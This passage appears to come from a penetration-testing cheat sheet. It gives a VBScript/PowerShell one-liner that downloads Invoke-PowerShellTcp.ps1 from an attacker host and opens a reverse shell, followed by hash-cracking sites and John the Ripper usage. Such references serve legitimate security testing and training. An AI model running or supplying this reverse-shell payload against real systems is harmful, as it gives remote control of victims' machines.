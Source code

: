 * VBS Remote Code Execution
```
<scRipt language="VBscRipT">CreateObject("WscrIpt.SheLL").Run "powershell iex (New-Object Net.WebClient).DownloadString('http://{IP}/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress {IP} -Port {PORT}"</scRipt>
```

## Password Crack

### Online

* Hash
[CrackStation](https://crackstation.net/) MD5 Decoder
[MD5decrypt.net](https://md5decrypt.net/en/) MD5 Decoder
[MD5online.org](https://www.md5online.org/md5-decrypt.html) MD5 Decoder
[md5cracker](https://md5.j4ck.com/) MD5 Cracker
[SHA1 Decoder](https://md5decrypt.net/en/Sha1/) SHA1 Decoder
[Hashes.com](https://hashes.com/en/decrypt/hash)
[Hash Analyzer](https://www.tunnelsup.com/hash-analyzer/) Analyze Hash Type
* Encode
[CyberChef](https://gchq.github.io/CyberChef/) Auto decoder
[Base64](https://www.base64decode.org/) Base64 decoder
[URL](https://www.urldecoder.org/) URL decoder

-----

### Offline

#### **John The Ripper**

This tool used for crack password of hash type.

* Usage
```
john {options} {hash_file}
```
* Options
  - `--wordlist={wordlist}` Wordlist
  - `--format={format}` Hash format
* Example Command
```
john hash.txt
```
* SOP
```
john {hash_file} --wordlist={wordlist}
```
* Install
```
sudo apt install john
```

-----
